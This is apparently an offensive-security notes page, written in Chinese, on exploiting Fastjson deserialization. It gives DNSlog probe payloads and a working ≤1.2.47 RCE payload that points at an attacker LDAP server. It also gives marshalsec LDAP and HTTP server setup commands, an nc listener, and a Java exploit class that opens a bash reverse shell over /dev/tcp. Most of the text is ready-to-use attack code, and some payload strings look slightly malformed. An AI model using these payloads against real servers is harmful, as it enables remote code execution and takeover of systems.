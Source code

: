# Fastjson利用总结


# 0X01 漏洞利用

## 探测fastjson

**对于有错误回显的情况**

使用`{"@type": "java.lang.AutoCloseable"`或者 `"{"a":x"`通过异常直接回显出版本号，接下来就直接根据版本号判断有没有漏洞和找exp了

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162119-9twhx22.png)

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162127-cb8po6i.png)

**无回显使用dnslog探测POC：**

1. `{"@type":"java.net.InetSocketAddress"{"address":,"val":"sq20yi.ceye.io"}}`
2. `{"@type":"java.net.Inet4Address","val":"sq20yi.ceye.io"}`
3. `{"@type":"java.net.Inet6Address","val":"sq20yi.ceye.io"}`
4. `{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://sq20yi.ceye.io"}}""}`
5. `Set[{"@type":"java.net.URL","val":"http://sq20yi.ceye.io"}`
6. `{{"@type":"java.net.URL","val":"http://sq20yi.ceye.io"}:0`

抓包修改请求体

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162201-uhi8rol.png)

==dnslog==收到请求信息就代表使用了==fastjson==来解析的json数据

![image.png](https://cdn.jsdelivr.net/gh/songzhiv/image//blog/image-20211105162210-q7l8fzu.png)

## 验证是否存在漏洞

fastjson1.2.47以后的版本利用 条件都比较苛刻，所以我们一般都会采用经典的1.2.47的POC，

无限制RCE，通杀≤1.2.47的所有版本。47版本poc如下

`{"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.119.161.84:1389/Exploit","autoCommit":true}}}`

1. 在我们的云服务器上开启LDAP服务：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://47.119.161.84/#Exploit`
2. 同目录开启http服务：`python3 -m http.server 80`
3. NC监听：`nc -lvvp 8888`
4. javac编译下面恶意类，将编译好的`Exploit.class`文件放在http同目录下

```java
public class Exploit {
    public Exploit(){
        try{
            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/xxx.xxx.xxx.xxx/8888 0>&1");
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        Exploit e = new Exploit();
    }
}
```
